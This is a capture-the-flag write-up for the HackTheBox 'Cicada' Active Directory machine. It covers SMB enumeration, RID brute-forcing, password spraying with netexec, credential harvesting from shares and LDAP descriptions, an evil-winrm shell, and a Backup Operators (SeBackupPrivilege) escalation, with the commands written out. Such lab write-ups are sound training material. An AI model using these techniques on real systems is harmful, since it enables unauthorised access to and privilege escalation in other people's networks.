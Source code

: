 This is a writeup for recently expired Cicada machine in Hackthebox platform.

### Part one: Scanning and Enumeration

Let’s begin with an nmap scan, so that we know which service are running and where to start.

```
nmap -Sv -Sc 10.10.11.27
```

![NMAP](/static/writeups/Cicada/0.png)

We can see many services are running and machine is using Active Directory service and there are many service to fiddle with. I am going to start with samba and enumerate shares using smbclient:

> smbclient -N -L $TAR, (TAR means target ip:TAR=10.10.11.35)

![NMAP](/static/writeups/Cicada/1.png)

let’s check if we can login with guest account or not, and if yes what permission we have using netexec:

> nxc smb 10.10.11.35 -u ‘a’ -p ‘’ — shares

![NMAP](/static/writeups/Cicada/2.png)

I can read HR and $IPC share, lets see HR contents using smbclient. there is a file called ‘Notice from Hr.txt’

![NMAP](/static/writeups/Cicada/3.png)

![NMAP](/static/writeups/Cicada/4.png)

It contains password for default user 'Cicada$M6Corpb\*@Lp#nZp!8' can be seen in this file, lets keep note of it.  
 Now with a password in hand, lets find some usernames so, we can use password we found earlier. As it is active directory we can Enumerate Users by Bruteforcing RID using Netexec:

> sudo nxc smb $TAR -u guest -p ‘’ — rid-brute

![NMAP](/static/writeups/Cicada/5.png)

We can find many user from this command, lets keep note of it. let’s use previously found password from ‘Notice from HR.txt’ and use these user to see if any username matches with password.  
 we can use netexec for this also.

> sudo nxc smb $TAR -u user.txt -p ‘Cicada$M6Corpb\*@Lp#nZp!8’ — continue-on-success

![NMAP](/static/writeups/Cicada/6.png)

We can see user ‘michael.wrightson’ matches with that pasword. lets use these credentials in Netexec to see what permission we have on share with this account.

> nxc smb 10.10.11.35 -u ‘michael.wrightson’ -p ‘Cicada$M6Corpb\*@Lp#nZp!8’ — shares

Nothing interesting same permission as guest account so, lets use ldapdomaindump using michael to find some more information.

> ldapdomaindump 10.10.11.35 -u ‘cicada\michael.wrightson’ -p ‘Cicada$M6Corpb\*@Lp#nZp!8’

![NMAP](/static/writeups/Cicada/7.png)

We find that David Orelius left his password in description: ‘aRt$Lp#7t\*VQ!3’. lets use the credentials in Netexec to see what permission we have on share with this account.

![NMAP](/static/writeups/Cicada/8.png)

david can access dev share lets see what is in there using smbclient

> smbclient -U david.orelious //$TAR/DEV

![NMAP](/static/writeups/Cicada/9.png)

there is file called backup_script.ps1 which contains emily.oscars password: ‘Q!3@Lp#M6b*7t*Vt’. Lets see what permission we have on share using these credentials using NetExec:

> nxc smb 10.10.11.35 -u ‘emily.oscars’ -p ‘Q!3@Lp#M6b*7t*Vt’ — shares

![NMAP](/static/writeups/Cicada/10.png)

emily can read all share except DEV and have write access in C$ share.

### Part Two: Finding Foothold

Accessing c$ share using emily account and pivoting here and there we can see that there is file called user.txt in Desktop folder ‘C:\Users\emily.oscars.cicada\Desktop’ from where we are able to get user flag.

Using evil-winrm with emily account, we are able to get shell in the machine.

> sudo evil-winrm -i $TAR -u emily.oscars -p ‘Q!3@Lp#M6b*7t*Vt’

![NMAP](/static/writeups/Cicada/11.png)

and using net user emily.oscars, we can see that emily is part of backup_operators group.

lets keep pivoting, file called root.txt can be found on Desktop folder under Administrator directory.

![NMAP](/static/writeups/Cicada/12.png)

But we cannot download or access that file with emily.

### Part Three: Privilege Escalation

As a built-in AD groups, **Backup operators** can log into a computer and shut it down. Can create backup of local files regardless of permission on that file. NTDS.DIT can be cloned.  
 lets look for a way to escalate privilege in order to read ‘root.txt’. by googling for a while i found a way to escalate privilege of emily.oscars [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges)

Using two dll called SeBackupPrivilegeUtils.dll and SeBackupPrivilegeCmdLets.dll, we are able to copy and access file that high level user like admin can access.

![NMAP](/static/writeups/Cicada/13.png)

We can download these file from internet and manually upload them in write access directory of emily.oscars and using the method above we can escalate privilege and copy it to directory with write permission using this command:

> Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\root.txt c:\\Users\emily.oscars.CICADA\Downloads\a.txt

![NMAP](/static/writeups/Cicada/14.png)

and we are able to get root flag like this:

![NMAP](/static/writeups/Cicada/15.png)

cheers!!

![NMAP](/static/writeups/Cicada/cicadaa.png)
